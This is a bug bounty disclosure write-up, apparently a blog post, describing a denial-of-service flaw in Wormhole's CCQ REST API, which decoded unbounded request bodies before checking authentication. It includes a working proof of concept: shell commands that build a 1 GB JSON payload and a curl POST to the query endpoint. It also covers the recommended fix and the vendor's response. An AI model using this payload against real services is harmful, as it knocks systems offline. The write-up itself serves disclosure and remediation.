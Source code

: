 ```yaml
---
weight: 1
title: "Taking down Wormhole's CCQ service through REST API"
date: 2023-10-24
tags: ["Wormhole", "CCQ", "DoS", "immunefi"]
draft: false
author: "fadam"
authorLink: ""
description: "Taking down Wormhole's CCQ service through REST API."
images: []
categories: ["Web2"]
lightgallery: true
resources:
  - name: "featured-image-preview"
    src: "templatewormhole.png"

toc:
  auto: false
---
```


<!--more-->

## 1. Introduction

As part of my Bug Bounty journey, I like to monitor my favorite programs on Github. Checking their latest Pull Requests/commits allow me to know what they are working on, and to get an insight of where security issues could arise. \
In this article, I will describe how I was able to find an issue within a new product (CCQ) of Wormhole. \
Because I was monitoring the project closely, I found the issue soon after it was pushed on the main branch, and before it was pushed on the Guardians nodes. \
The following sections are taken from the Immunefi report. I would like to thank the Wormhole's team for allowing me to post and for their professionalism.

## 2. Bug Description

The tests were performed on the commit: [6c3ff43d6a416abce680e77ce81a9f613ba27075](https://github.com/wormhole-foundation/wormhole/commit/6c3ff43d6a416abce680e77ce81a9f613ba27075) \
Wormhole has implemented a new feature: [Cross-Chain Queries](https://github.com/wormhole-foundation/wormhole/blob/main/whitepapers/0013_ccq.md) which includes a REST API :

> a separate REST server is being provided to accept off-chain query requests

Also the feature is designed to work off-chain only (p2p, API) in the initial deployment:

> The initial release of CCQ will not support on chain requests.

There are two issues regarding the REST API.
The function handleQuery() within [http.go](https://github.com/wormhole-foundation/wormhole/blob/6c3ff43d6a416abce680e77ce81a9f613ba27075/node/cmd/ccq/http.go#L40) :

1. Checks authentication **after** decoding the payload:

```golang
var q queryRequest
err := json.NewDecoder(r.Body).Decode(&q)
(...)
apiKey, exists := r.Header["X-Api-Key"]
if !exists || len(apiKey) != 1 {
	s.logger.Debug("received a request without an api key", zap.Stringer("url", r.URL), zap.Error(err))
	http.Error(w, "api key is missing", http.StatusBadRequest)
	return
}
```

2. Does **not limit the size** of the POST payload.

In consequence, an attacker can craft an arbitrary curl request containing 1Gb of hexadecimal payload.
This will cause the server to decode the body for a very long time, leading to very high increase in RAM, and increase of CPU.
On my testbed, it led to container restarting due to lack of resources.

## 3. POC

First of all, we need to recreate a little Wormhole environment with Tilt.

```bash
git clone https://github.com/wormhole-foundation/wormhole/
cd wormhole
make node
minikube start --cpus=8 --memory=24G --disk-size=100G --driver=docker
tilt up
```

Then we need to modify the Tilt file so we can access the CCQ feature, please refer to the following [Tilt file](https://gist.github.com/0xfadam/4ba10f032d3d2530f5f28556285248a6)

To create the 1 Gb payload that will crash the service :

```bash
echo -ne '{"data" : "' >> json_payload.json
dd if=/dev/urandom bs=1M count=1024| xxd -p -c 1024 >> json_payload.json
echo -ne '"}' >> json_payload.json
tr -d "\n" <  json_payload.json > final_payload.json
rm  json_payload.json
```

To perform the attack :

```bash
curl -X POST -H "Content-Type: application/json" -T final_payload.json http://guardian:8996/v1/query
```

A video PoC (with 2 videos) demonstrates the impact:

1. https://drive.google.com/file/d/1vvzbUr-ucuVWthf7K57eiiHGFoqf9x-O/view?usp=sharing
2. https://drive.google.com/file/d/1vwDj27H4Y97vbOMvzJVzKxgdbz08mNzz/view?usp=sharing

The PoC is running on a I7 server (16CPU) + 32 Gb RAM, and only one curl is used. \
On the second video, at 5.22, the server reaches maximum RAM and container restarts.

Only 2/3 requests were used. The purpose of using a small amount of requests was to demonstrate that the issue was not **network-related** , but **application-related**.

## 4. Recommendation

1. The first part of the fix is to check the authentication before processing the JSON payload.

```golang
	// There should be one and only one API key in the header.
	apiKeys, exists := r.Header["X-Api-Key"]
(...)
	var q queryRequest
	err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
	if err != nil {
		s.logger.Debug("failed to decode body", zap.Error(err))
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
```

2. Additionnally, a control over the payload size is now performed, ensuring it does not exceed 5Mb.

```golang
const MAX_BODY_SIZE = 5 * 1024 * 1024
(...)
err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
```

## 5. Wormhole response

CCQ service exists outside of the Guardians, on different servers. \
This is by design to ensure minimal running services are on the node that contains the guardian signing and identity (p2p) keys. \
Therefore, impacting CCQ could have not caused a Denial of Service on the Guardians. \
Also, it is expected that Guardians operators will protect the CCQ feature behind a reverse-proxy and other security equipments.

With that being said, Wormhole has been very proactive and has fixed the issue **on the same day** of the report, through the [PR 3443](https://github.com/wormhole-foundation/wormhole/pull/3443).
